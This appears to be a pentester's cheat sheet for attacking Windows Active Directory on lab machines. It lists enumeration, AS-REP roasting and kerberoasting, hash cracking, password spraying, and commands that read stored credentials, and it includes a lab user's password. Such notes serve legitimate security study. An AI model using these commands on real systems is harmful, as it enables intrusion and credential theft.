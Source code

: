 ```bash
# nmap
nmap 10.10.10.175 --script=smb-enum* -p445


# smbclient
## anon
smbclient -L 10.10.10.175 -N
smbclient -L 10.10.10.175 -U "Egotistical-bank.local/fsmith"
> recurse on
> prompt off
> ls


#smbmap
smbmap -H 10.10.10.161
smbmap -H 10.10.10.10 -u '' -p ''
smbmap -H 10.10.10.10 -u 'guest' -p ''


# enum4linux
enum4linux -a -u "" -p "" dc-ip
enum4linux -a -u "guest" -p "" dc-ip


# rpcclient
## anon
rpcclient 10.10.10.175 -N
rpcclient -U "" -N 10.10.10.161
> enumdomusers
> enumdomgroups


# GetNPUsers.py
## anon
GetNPUsers.py Egotistical-bank.local/ -dc-ip 10.10.10.175
GetNPUsers.py active.htb/ -dc-ip 10.10.10.100

## with username
GetNPUsers.py Egotistical-bank.local/fsmith -dc-ip 10.10.10.175 -request -no-pass

## with username list
GetNPUsers.py 'EGOTISTICAL-BANK.LOCAL/' -usersfile users.txt -format hashcat -outputfile hashes.aspreroast -dc-ip 10.10.10.175

## hashcat
hashcat -m 18200 ./hash.txt /usr/share/wordlists/rockyou.txt -o cracked.txt

# LDAP
## anon
ldapsearch -x -H ldap://10.10.10.175 -b "dc=Egotistical-bank,dc=local"


# PowerView
```bash
Import-Module .\PowerView.ps1
Get-NetDomain
Get-NetUser
Get-NetUser | select cn
Get-NetUser | select cn,pwdlastset,lastlogon
Get-NetGroup | select cn
Get-NetGroup "Sales Department" | select member

Get-NetComputer
Get-NetComputer | select operatingsystem,dnshostname
Find-LocalAdminAccess
Get-NetSession -ComputerName files04 -Verbose
Get-NetSession -ComputerName web04 -Verbose
Get-NetSession -ComputerName client74
Get-NetUser -SPN | select samaccountname,serviceprincipalname(same as setspn -L iis_service)
Get-ObjectAcl -Identity stephanie
Get-ObjectAcl -Identity "Management Department" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights
"S-1-5-21-1987370270-658905905-1781884369-512","S-1-5-21-1987370270-658905905-1781884369-1104","S-1-5-32-548","S-1-5-18","S-1-5-21-1987370270-658905905-1781884369-519" | Convert-SidToName
Find-DomainShare

```

# PsLoggedon.exe
```bash
.\PsLoggedon.exe \\files04

```


# kerbrute
## anon
kerbrute.py -users ./users.txt -dc-ip 10.10.10.175 -domain Egotistical-bank.local


#crackmapexec(smb/winrm)
crackmapexec smb 10.10.10.175 -u "" -p "" -d Egotistical-bank.local
crackmapexec smb 10.10.10.175 -u "fsmith" -p "" -d Egotistical-bank.local
crackmapexec smb 10.10.10.175 -u "fsmith" -p "Thestrokes23" -d Egotistical-bank.local
crackmapexec winrm 10.10.10.175 -u 'fsmith' -p 'Thestrokes23' -d Egotistical-bank.local
```


# On Victim
```bash
whoami /priv
systeminfo | findstr /B /C:"Host Name" /C:"OS Name" /C:"OS Version" /C:"System Type" /C:"Hotfix(s)"

net user /domain
net user fsmith /domain
net group /domain
net group "Sales Department" /domain



cmdkey /list
cat (Get-PSReadlineOption).HistorySavePath
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"


# kerberoast
.\Rubeus.exe kerberoast


```

